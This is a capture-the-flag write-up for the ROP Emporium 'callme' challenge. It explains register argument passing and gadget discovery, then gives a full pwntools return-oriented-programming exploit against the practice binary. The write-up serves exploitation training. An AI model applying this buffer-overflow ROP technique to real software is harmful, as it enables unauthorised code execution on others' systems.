

# callme

Link: https://ropemporium.com/challenge/callme.html

Goal: *You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g. callme_one(1,2,3) to print the flag. The solution here is simple enough, use your knowledge about what resides in the PLT to call the callme_ functions in the above order and with the correct arguments.*

------------------------------------------

First, we check with GDB that the offset is still 40. It seems so given that with 41 characters we see only one "41" in RIP registry::



Then, we need to find the addresses of "callme_one", "callme_two" and "callme_three". We can do this with objdump:


But we will use Python directly:

```
callme_one =   elf.sym["callme_one"]
callme_two =   elf.sym["callme_two"]
callme_three = elf.sym["callme_three"]
```

The input arguments of a function in 64 bits are stored in ([source](https://uclibc.org/docs/psABI-x86_64.pdf)):

- First Argument: RDI

- Second Argument: RSI

- Third Argument: RDX

- Fourth Argument: RCX

- Fifth Argument: R8

- Sixth Argument: R9


Then, we need to find the gadgets for storing values in RDI, RSI and RDX, the 3 first arguments used to store input arguments for a function when using 64 bits.


We did not find a gadget such as *"pop rsi ; ret"*, but there is an alternative: using *"pop rsi ; pop r15 ; ret"* and just send a junk value to be stored in registry R15 (which is useless in this case).

Again, we will automatize this using Python:

```
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0] 
pop_rsi = (rop.find_gadget(['pop rsi', 'pop r15', 'ret']))[0] 
pop_rdx = (rop.find_gadget(['pop rdx', 'ret']))[0] 
```

The final exploit is:

```
from pwn import *

context(arch='amd64', os='linux')
binary_name = 'callme'
p = process('./'+binary_name)

junk = "A"*40
elf = ELF(binary_name)
rop = ROP(elf)

pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0] 
pop_rsi = (rop.find_gadget(['pop rsi', 'pop r15', 'ret']))[0] 
pop_rdx = (rop.find_gadget(['pop rdx', 'ret']))[0] 
log.info("pop_rdi: "+hex(pop_rdi))
log.info("pop_rsi: "+hex(pop_rsi))
log.info("pop_rdx: "+hex(pop_rdx))

callme_one =   elf.sym["callme_one"]
callme_two =   elf.sym["callme_two"]
callme_three = elf.sym["callme_three"]
log.info("callme_one: "+  hex(callme_one))
log.info("callme_two: "+  hex(callme_two))
log.info("callme_three: "+hex(callme_three))

rop =  junk
rop += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(2) + p64(2) + p64(pop_rdx) + p64(3) 
rop += p64(callme_one)
rop += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(2) + p64(2) + p64(pop_rdx) + p64(3) 
rop += p64(callme_two)
rop += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(2) + p64(2) + p64(pop_rdx) + p64(3) 
rop += p64(callme_three)

p.recvuntil("> ")
p.send(rop)
p.interactive()

```
When executed, it returns the value of the flag:

